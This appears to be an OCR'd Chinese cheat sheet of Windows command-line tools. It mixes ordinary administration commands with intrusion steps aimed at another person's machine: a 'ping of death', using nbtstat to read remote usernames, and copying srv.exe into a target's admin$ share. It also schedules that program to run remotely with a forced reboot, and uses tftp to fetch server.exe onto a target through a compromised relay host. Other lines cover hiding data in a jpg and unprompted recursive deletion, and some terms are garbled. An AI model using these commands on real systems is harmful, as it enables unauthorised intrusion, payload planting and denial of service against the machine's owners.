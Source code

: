 netstat -a 查看开启了哪些端口,常用netstat -an netstat -n 查看端口的网络连接情况，常用netstat -an netstat -v 查看正在进行的工作 
netstat -p 协议名 例：`netstat -p tcq/ip` 查看某协议使用情况（查看tcp/ip协议使用情况）

netstat -s 查看正在使用的所有协议使用情况

nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名（03前的为用户名）-注意：参数-A要大写

tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。

ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。 ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)

ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息

tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)

kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内) del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件 del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）

move 盘符\路径\要移动的文件名 存放移动文件的路径\移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖 

`fc one.txt two.txt > 3st.txt` 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令

 

at id号 开启已注册的某个计划任务

at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止

at id号 /delete 停止某个已注册的计划任务

at 查看所有的计划任务

at \\ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机

finger username @host 查看最近有哪些用户登陆 
telnet ip 端口 远和登陆服务器,默认端口为23 
open ip 连接到IP（属telnet登陆后的命令） 
telnet 在本机上直接键入telnet 将进入本机的telnet 

copy 路径\文件名1 路径\文件名2 /y 复制文件1到指定的目录为文件2，
用参数/y就同时取消确认你要改写一份现存目录文件 
`copy c:\srv.exe $">\\ip\admin$` 复制本地c:\srv.exe到对方的admin下 
`copy 1st.jpg/b+2st.txt/a 3st.jpg` 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

`copy $\svv.exe">\\ip\admin$\svv.exe c:\ `或:`copy\\ip\admin$\*.*` 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

xcopy 要复制的文件或目录树 目标地址\目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

`tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:\server.exe `登陆后，将“IP”的server.exe下载到目标主机c:\server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送 
`tftp -i 对方IP put c:\server.exe` 登陆后，上传本地c:\server.exe至主机

ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时) 
`route print`显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway

addres，接口地址
